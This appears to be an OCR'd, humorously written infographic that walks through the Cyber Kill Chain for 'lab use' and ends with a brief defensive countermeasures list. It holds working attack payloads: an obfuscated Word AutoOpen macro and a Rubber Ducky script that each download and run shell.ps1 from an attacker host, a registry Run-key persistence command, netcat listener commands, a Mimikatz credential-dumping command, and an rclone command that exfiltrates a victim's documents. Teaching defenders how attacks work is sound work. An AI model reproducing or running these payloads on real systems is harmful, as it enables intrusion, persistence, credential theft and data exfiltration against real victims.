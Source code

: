 Cyber Kill Chain – Operation: PWN EVERYTHING
Presented by: Agent 1337, InfoSec's slickest field operative
Includes working payload code samples for lab use.
1. Reconnaissance – “The Creeper’s Crawl”
Mission: Know thy target.
Tactics:
- Passive: Google dorking, LinkedIn stalking, Shodan scans
- Active: Phishing domain lookups, WHOIS scraping
Payloads:
N/A (no code dropped here — just info slurped)
Tip: Try using “theHarvester” and see what emails and domains fall out like candy from a piñata.
2. Weaponization – “Crafting the Digital Dagger”
Mission: Combine malware with a delivery vehicle.
Tactics:
- Malicious PDFs/Excels
- Bind reverse shell to installer
Payloads:
- Meterpreter in a CV-laced PDF
- Emotet in invoice-themed Word doc
- PowerShell Empire script
It’s like putting a snake in a birthday cake. Only less festive. And more... root access.
Sub AutoOpen()
    Dim p1 As String, p2 As String, p3 As String
    p1 = "pow"
    p2 = "ers"
    p3 = "hell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"
    Dim fullCmd As String
    fullCmd = p1 & p2 & p3
    Shell fullCmd, vbHide
End Sub
3. Delivery – “The Trojan Horse Uber Eats Edition”
Mission: Get the payload to the victim.
Tactics:
- Phishing emails
- Drive-by downloads
- USB drops
Payloads:
- Malicious login links
- MalDoc macro
- Rubber Ducky USB scripts
Tip: Can you spot the phishing email before HR opens it?
4. Exploitation – “The Big Bang”
Mission: Trigger the payload to breach the system.
Tactics:
- Macros
- Zero-day exploits
- JavaScript payloads
Payloads:
- CVE-2021-40444
- Log4Shell
- Cobalt Strike beacon
Tip: User: “Why is my screen flickering?”
Attacker: “That’s just... your new dark mode.”
5. Installation – “Staying for Dinner”
Mission: Set up shop.
Tactics:
- Backdoors
- Registry run keys
- RATs
Payloads:
- NanoCore
- Cobalt Strike
- Encoded PowerShell in scheduled task
Tip: Always check your startup programs.
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"

6. Command and Control (C2) – “Hello from the Other Side”
Mission: Maintain remote access and issue commands.
Tactics:
- HTTPS
- DNS tunneling
- Cloud-based C2
Payloads:
- Metasploit beacon
- Sliver C2
- Discord bot
Tip: Try setting up a simulated C2 in a lab.
# Netcat listener
nc -lvnp 443

# Python HTTP server
python3 -m http.server 80
7. Actions on Objectives – “Data, Gold, and Glory”
Mission: Exfiltrate, destroy, encrypt, or spy.
Tactics:
- Data exfil
- Ransomware
- Credential harvesting
Payloads:
- Rclone
- LockBit/BlackCat
- Mimikatz
Tip: If you hear ‘your files have been encrypted,’ the party’s over.
# Mimikatz
sekurlsa::logonpasswords

# Rclone exfil
rclone copy C:\Users\victim\Documents remote:loot --config rclone.conf
Bonus Level: DEFENSE MODE – Your Counterplay
Recon: Monitor open-source mentions
Delivery: Email filtering + awareness
Exploit/Install: EDR + patching
C2: Detect beaconing patterns
Objectives: DLP, SIEM alerts, segmentation
Bonus Payload – Rubber Ducky Ninja Moves
DELAY 1000
GUI r
DELAY 500
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"
ENTER
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"

